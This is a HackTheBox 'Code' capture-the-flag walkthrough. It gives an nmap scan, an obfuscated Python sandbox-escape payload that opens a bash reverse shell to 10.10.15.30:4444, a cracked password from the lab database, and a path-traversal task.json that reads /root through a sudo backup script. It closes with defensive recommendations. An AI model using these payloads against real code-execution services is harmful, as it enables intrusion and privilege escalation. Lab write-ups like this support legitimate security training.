

# Code HackTheBox Walkthrough

This report presents a detailed exploitation chain of a vulnerable Python-based web application, 
including remote code execution (RCE) through a sandbox escape, database compromise, credential reuse, 
and privilege escalation via a misconfigured backup utility.

---

## 1. Initial Reconnaissance

We begin with a comprehensive Nmap scan to discover open ports and services on the target:

```bash
nmap -p- -Pn 10.129.231.240 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.240 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.240 -v --script vuln -oN nmap_vuln.txt
```


We observed port **5000** open, hosting a Python web-based **code execution environment**.


---

## 2. Sandbox Analysis & Exploitation

The web editor executed user-supplied Python code but restricted imports such as `os`, `subprocess`, and `sys`.  
After trial and error (“vibe coding”), we discovered that introspection and class inheritance could be abused to bypass restrictions.

### Final Exploit Payload

```python
s1 = 'esolc_parw_'
s2 = 'metsys'
s3 = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.15.30/4444 0>&1'"

for cls in ().__class__.__base__.__subclasses__():
    if cls.__name__ == s1[::-1]:
        s5 = cls.__init__.__globals__
        s5[s2[::-1]](s3)
        break
```

This payload dynamically accessed the **`os.system()`** function through Python’s internal class hierarchy, 
successfully spawning a reverse shell back to the attacker.


---

## 3. Post-Exploitation & User Flag

We gained shell access as the **app-production** user.  
Navigating the file system revealed the **user flag** in their home directory:


---

## 4. Source Code Review & Database Compromise

Reviewing the Flask app source code revealed filtering logic and a **hardcoded secret key**:


We located the application’s SQLite database at `instance/database.db` and extracted MD5 password hashes:


After cracking the hashes, we recovered valid credentials:

```
martin : nafeelswordsmaster
```

Logging in as **martin**, we discovered a **backups folder** in his home directory containing archived versions of the application.


---

## 5. Privilege Escalation via Backup Script (`backy.sh`)

Running `sudo -l` revealed that **martin** could execute `/usr/bin/backy.sh` as root:


Upon inspecting the script, we determined it read configuration data from a `task.json` file, 
filtering and archiving directories specified within. The script was vulnerable to **path traversal** in JSON input.


---

### Exploiting `backy.sh`

We crafted a malicious `task.json` file to include the `/root` directory using directory traversal (`/var/....//root`).

```bash
echo '{
    "destination": "/home/martin/",
    "multiprocessing": true,
    "verbose_log": false,
    "directories_to_archive": [
        "/var/....//root"
    ],
    "exclude": []
}' > task.json
```

We then executed the backup process with elevated privileges:

```bash
sudo /usr/bin/backy.sh task.json
```


After decompressing the resulting archive, we confirmed full read access to `/root` and obtained the **root flag**:




---

## 6. Conclusion

This penetration test highlights the impact of sandbox escape vulnerabilities in Python web environments 
and the dangers of poorly secured privilege escalation paths.

**Key findings:**

- The Python code execution environment failed to sanitize dynamic class access, allowing sandbox escape.  
- Weak database security (exposed secret key and MD5 hashing) facilitated credential compromise.  
- Credential reuse allowed lateral movement to another system account.  
- A misconfigured backup script permitted arbitrary path inclusion and full root access.

**Security recommendations:**

- Implement strict sandboxing and input validation for code execution environments.  
- Replace MD5 hashing with a stronger algorithm (e.g., bcrypt or Argon2).  
- Rotate and encrypt database credentials and application secrets.  
- Limit `sudo` permissions and validate JSON input in privileged scripts.  
- Conduct routine source code audits and privilege reviews to prevent similar exploit chains.

---
